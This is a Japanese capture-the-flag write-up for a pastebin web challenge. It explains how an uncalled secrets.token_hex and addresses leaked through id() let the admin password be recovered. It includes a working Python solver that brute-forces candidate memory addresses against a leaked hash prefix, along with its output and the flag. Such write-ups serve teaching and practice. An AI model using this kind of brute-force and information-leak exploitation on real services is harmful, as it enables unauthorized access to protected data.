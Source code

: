 # pastebin:web:120pts
Challenge: [https://pastebin.web.actf.co/](https://pastebin.web.actf.co/)  

[main.py](main.py)  

# Solution
URLとソースが渡される。  
アクセスすると、Pasteを保存できるサイトのようだ。  
![site.png](site/site.png)  
`Satoki`と保存すると、`https://pastebin.web.actf.co/view?id=135598339909712`のようなURLが払い出される。  
ソースの主要部分は以下の通りであった。  
```python
import hashlib
import html
import os
import secrets

from server import Server

ADMIN_PASSWORD = hashlib.md5(
    f'password-{secrets.token_hex}'.encode()
).hexdigest()

pastes = {}

def add_paste(paste_id, content, admin_only=False):
    pastes[paste_id] = {
        'content': content,
        'admin_only': admin_only,
    }

server = Server()

~~~

@server.post('/paste')
async def paste(request):
    data = await request.post()
    content = data.get('content', '')
    paste_id = id(content)

    add_paste(paste_id, content)

    return (200, f'''
        <link rel="stylesheet" href="/style.css">
        <div class="container">
            <h1>Paste Created</h1>
            <p><a href="/view?id={paste_id}">View Paste</a></p>
        </div>
    ''')

@server.get('/view')
async def view_paste(request):
    id = request.query.get('id')
    paste = pastes.get(int(id))

    if paste is None:
        return (404, 'Paste not found')

    if paste['admin_only']:
        password = request.query.get('password', '')
        if password != ADMIN_PASSWORD:
            return (
                403,
                f'Incorrect parameter &password={ADMIN_PASSWORD[:6]}...',
            )

    return (200, f'''
        <link rel="stylesheet" href="/style.css">
        <div class="container">
            <h1>Paste</h1>
            <pre>{html.escape(paste['content'])}</pre>
        </div>
    ''')

~~~

add_paste(0, os.getenv('FLAG', 'missing flag'), admin_only=True)
server.run('0.0.0.0', 3000)
```
`add_paste(0, os.getenv('FLAG', 'missing flag'), admin_only=True)`より`https://pastebin.web.actf.co/view?id=0`にフラグがあることがわかる。  
ただし、`admin_only=True`なので、正確な`ADMIN_PASSWORD`をクエリとして渡す必要がある。  
幸いなことに`ADMIN_PASSWORD[:6]`までは認証失敗の応答に含まれているようだ。  
```bash
$ curl 'https://pastebin.web.actf.co/view?id=0'
Incorrect parameter &password=1797c2...
```
`ADMIN_PASSWORD`が`1797c2`で始まることがわかる。  
ここで、`ADMIN_PASSWORD`の生成個所を見る。  
```python
ADMIN_PASSWORD = hashlib.md5(
    f'password-{secrets.token_hex}'.encode()
).hexdigest()
```
手元で実行して試すと、以下のような奇妙な実装ミスを見つける。  
```bash
$ python
>>> import hashlib
>>> import secrets
>>> ADMIN_PASSWORD = hashlib.md5(
...     f'password-{secrets.token_hex}'.encode()
... ).hexdigest()
>>> ADMIN_PASSWORD
'0921c980c1b4c639b9a69e07c99dd87b'
>>> f'password-{secrets.token_hex}'.encode()
b'password-<function token_hex at 0x7ffae2f4e9e0>'
```
`secrets.token_hex()`となるべき箇所が`secrets.token_hex`と記述されており、`<function token_hex at 0x7ffae2f4e9e0>`のようなメモリアドレスを含む文字列となっている。  
リモートサーバのメモリアドレスが分かれば`ADMIN_PASSWORD`も計算できるが、まだエントロピーが高い。  
どこからかアドレスがわからないかと考えていると、`paste_id = id(content)`が目に留まる。  
`id()`はオブジェクトの識別値を返し、CPythonではアドレスとなる。  
これはPasteのURLから取得でき、先ほどのURLのidである`id=135598339909712`もHexで`0x7b5372e1e850`とアドレスのようだ。  
その他にもPasteを作ると、`135598320237360`(`0x7b5371b5bb30`)や`135598320232560`(`0x7b5371b5a870`)と一致している箇所があると分かる。  
検証の結果`0x7b537XXXXXXX`の`0xXXXXXXX`を当てればいいようだ。  
`ADMIN_PASSWORD`の先頭はわかっているので、md5の結果の先頭が`1797c2`となるものを探せばよい。  
以下のid2passwd.pyで計算し、候補をすべて試す。  
```python
import re
import hashlib
import requests

passwd = re.search(
    "Incorrect parameter &password=([0-9a-f]+)\.\.\.",
    requests.get("https://pastebin.web.actf.co/view?id=0").text,
).group(1)
print(f"password[:6]: {passwd}")


res = requests.post("https://pastebin.web.actf.co/paste", data={"content": "satoki"})
id_satoki = re.search("id=([0-9]+)", res.text).group(1)
print(f'id("satoki"): {hex(int(id_satoki))}')

for i in range(0x0, 0xFFFFFFF):
    base = int(id_satoki)& (~0xFFFFFFF)
    hash = hashlib.md5(
        f"password-<function token_hex at {hex(base + i)}>".encode()
    ).hexdigest()
    if hash.startswith(passwd):
        print(f"password?: {hash}")
        flag = requests.get(f"https://pastebin.web.actf.co/view?id=0&password={hash}").text
        if "actf{" in flag:
            print(f"password: {hash}")
            print(re.search("actf{.*}", flag).group(0))
            break
```
実行する。  
```bash
$ python id2passwd.py
password[:6]: 1797c2
id("satoki"): 0x7b5371b50e70
password?: 1797c2a5536b66caeb1e43b67caa84b6
password?: 1797c2c4026040eaf89403f7e713277d
password?: 1797c26e62cd714816eb4b152c1df3b3
password?: 1797c2a48f270a2b42660c2e629c51cd
password: 1797c2a48f270a2b42660c2e629c51cd
actf{47fd1d17b0c1121da0fc9d2d0c4fc109}
```
`ADMIN_PASSWORD`が`1797c2a48f270a2b42660c2e629c51cd`と分かり、flagが得られた。  

## actf{47fd1d17b0c1121da0fc9d2d0c4fc109}